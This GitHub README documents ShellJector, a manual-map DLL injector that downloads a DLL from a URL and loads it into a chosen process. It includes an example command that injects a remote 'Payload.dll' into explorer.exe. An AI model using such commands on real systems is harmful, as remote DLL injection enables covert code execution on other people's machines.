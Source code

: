 # ShellJector (v2.0)
Manual map shellcode (aka byte array) injector wich can download DLL from the internet by URL  
Also take a look at [local](https://github.com/Wolf49406/ShellJectorLocal) version!

[![MSBuild](https://github.com/Wolf49406/ShellJector/actions/workflows/msbuild.yml/badge.svg?branch=main)](https://github.com/Wolf49406/ShellJector/actions/workflows/msbuild.yml)

## How to Build:
- Open `ShellJector.sln -> main.cpp`;
- Set `ProcName` and `DllURL`;
- Build;

## Usage:
- Go to \ShellJector\Build;
  - OR just download the [Latest Release](https://github.com/Wolf49406/ShellJector/releases/latest);
  - Set launch arguments (down below);
- Open Target Process;
- Open `ShellJector.exe`;

## Arguments:
You can set `ProcName` and `DllURL` with `-proc` and `-url` arguments  
(ex: `ShellJector.exe -proc explorer.exe -url "https://example.com/Payload.dll"`)
Arguments are case **sensitive**!

## Notice:
ShellJector.exe will look for Payload.dll near itself!
